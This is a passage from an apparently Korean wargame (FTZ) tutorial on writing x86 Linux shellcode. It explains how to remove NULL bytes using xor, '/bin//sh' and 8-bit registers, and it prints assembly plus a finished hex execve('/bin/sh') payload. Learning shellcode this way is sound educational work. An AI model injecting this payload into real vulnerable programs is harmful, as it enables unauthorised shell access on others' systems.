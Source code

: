 objdump 명령어로 myshell 프로그램을 기계어로 변환해보니 NULL(0x00)이 포함되어 있습니다.  
쉘코드에 NULL이 포함되어 있으면 문자열의 끝으로 인식하기 때문에 NULL을 없애줘야 합니다.  

NULL 값을 없애는 방법은 다음과 같습니다.  
1) 자기 자신을 xor 연산하여 0이 되는 특징을 이용  
2) "/bin//sh" == "/bin/sh"  

<img data-action="zoom" src='{{ "assets/ftz/shellcode/11.png" | relative_url }}' alt='relative'>  

3) 32비트 레지스터인 eax 대신 8비트 레지스터인 al 사용  
32비트 레지스터 eax, 16비트 레지스터 ax(상위 8비트 ah + 하위 8비트 al)  
32비트 레지스터 ebx, 16비트 레지스터 bx(상위 8비트 bh + 하위 8비트 bl)  
32비트 레지스터 ecx, 16비트 레지스터 cx(상위 8비트 ch + 하위 8비트 cl)  
32비트 레지스터 edx, 16비트 레지스터 dx(상위 8비트 dh + 하위 8비트 dl)  
32비트 레지스터 ebp, 16비트 레지스터 bp
32비트 레지스터 esi, 16비트 레지스터 si
32비트 레지스터 edi, 16비트 레지스터 di
32비트 레지스터 esp, 16비트 레지스터 sp

``` c
// AT&T format
//push $0x0
xor %eax, %eax
push %eax

//push $0x0068732f
push $0x68732f2f

push $0x6e69622f
mov %esp, %ebx

//push $0x0
push %eax

push %ebx
mov %esp, %ecx

//mov $0x0, %edx
mov %eax, %edx

//mov $0xb, %eax
mov $0xb, %al

int $0x80
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/12.png" | relative_url }}' alt='relative'>  

위의 기계어에서 shell을 실행하기 위해 필수로 필요한 코드인 0x80481e2부터 0x80481f7까지의 기계어를 추출하면 됩니다.  

## 7) 완성된 쉘코드가 정상적으로 동작하는지 확인  

``` bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```
